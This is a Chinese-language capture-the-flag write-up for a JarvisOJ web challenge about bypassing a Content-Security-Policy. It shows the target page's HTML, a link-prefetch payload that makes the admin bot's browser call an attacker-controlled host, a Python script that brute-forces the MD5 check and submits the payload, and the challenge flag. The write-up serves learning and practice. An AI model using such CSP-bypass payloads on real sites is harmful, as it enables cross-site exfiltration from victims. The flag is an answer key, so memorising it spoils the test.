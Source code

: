 ## 描述

题目入口：http://web.jarvisoj.com:32800/

Hint1: csp bypass

Hint1: 最近问机器人有没有挂掉的人很多，这里解释一下，机器人是用系统的corntab起的，除非题目一起挂了，不然机器人是不会挂的，如果题目可以正常访问但是做不出来请检查自己的payload，不要让我再重复回答机器人挂没挂这个问题了。

## 题解

```html
<!DOCTYPE html>
<html>
<head>
<title>Contact Site</title>
<link href="css/style.css" rel='stylesheet' type='text/css' />
<meta name="viewport" content="width=device-width, initial-scale=1">
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<script src="js/jquery-3.1.1.js"></script>
</head>
<body>
    <h1>Tell you secret to admin</h1>
    <div class="login-01">
            <form action="./" method="post">
            <ul>
                <li class="first">
          <a href="#" class=" icon user"></a><input name="name" type="text" class="text" value="Name" >
                    <div class="clear"></div>
                </li>
                <li class="first">
         <a href="#" class=" icon phone"></a><input name="phone" type="text" class="text" value="Phone">
                    <div class="clear"></div>
                </li>
                <li class="first">
                <h2>( PS：substr($verify,0,4) === '8521' )</h2></li>
            <a href="#" class=" icon email"></a><input name="verify" type="text" class="text" value="verify"  >
                          <div class="clear"></div>
                </li>
                      <li class="first">
                <li class="second">
          <a href="#" class=" icon msg"></a><textarea name="secret" value="Secret">Secret</textarea>
                    <div class="clear"></div>
                </li>
            </ul>
            <input type="submit" value="Submit" >
            <div class="clear"></div>
        </form>
    </div>
    <div class="copy-right">
        <div class="wrap">
            <p>Copyright &copy; 2017. Bendawang name All right reserved.</p>
        </div>
    </div>
</body>
</html>

```

先扫为敬。只有 `index.php` 和 `conn.php`，后者打开啥也没有。

发现网页上的 `( PS：substr($verify,0,4) === 'f291' )` 右边那个值是会变的，刷新一次变一次。但是尝试了各种提交后全是得到 `verify error!`，猜想应该不止 `verify` 那一项要正确，`message` 也要正确。

提示告诉我们 CSP bypass，所以去搜几篇 CSP 的文章：

- [CSP Level 3浅析&简单的bypass](https://lorexxar.cn/2016/08/08/ccsp/)
- [CSP策略及绕过方法](https://blog.csdn.net/qq_35078631/article/details/73732951)
- [gif bypass CSP?](https://lorexxar.cn/2016/04/20/gif-ccsp/)
- [使用 Wave 文件绕过 CSP 策略](https://mp.weixin.qq.com/s/ljBB5jStB7fcJq4cgdWnnw)
- [初探CSPBypass一些细节总结](https://xz.aliyun.com/t/318/)

然后再尝试发一次邮件，发现一直 `verify error!`，猜测 `$verify` 那里判断的是邮件的 MD5。。。我们尝试构造一次试试，OK，验证通过，待会 Admin 会来查看我们的邮件。所以应该就是要构造一个 xss 了。

先看一下网站的 CSP 配置：`Content-Security-Policy: default-src 'self'; script-src 'self'`

比较难，在这里注意，我们可以在发邮件前，在控制台试一试自己发送的代码是否能运行起来。

其实直接

```	html
<link rel="prefetch" href="http://xss/gg.php?t=123456">
```

就好了，但是本题不知道怎么挂掉了，一直收不到，我猜测是机器人的浏览器升级了？把 `prefetch` 给挡了？

不管了，反正这题我体验极差，发了不下 100 次 Payload，各种组合尝试，依然收不到，直接抄答案好了。

我写的代码

```python
import requests
import random, re, hashlib
url = 'http://web.jarvisoj.com:32800/'
secret = '''
<link rel="prefetch" href="http://xss.com/?x=gg">
'''.strip()
data = {
    'name': 'admin',
    'phone': 'Phone',
    'verify': '',
    'secret': secret,
}

sess = requests.session()
t = sess.get(url)
v = re.findall(r'''===\s'(\w\w\w\w)'\s''', t.text)[0]

while 1:
    m = hashlib.md5()
    s = str(random.randint(1, 1000000000))
    m.update(s.encode('utf-8'))
    md5 = m.hexdigest()
    if md5[:4] == v:
        data['verify'] = s
        break

print(data)

t = sess.post(url, data=data)

print(t.text)
```

## 答案

61dctf{c3p_m1ght_n4t_84_3ec0r1ty}
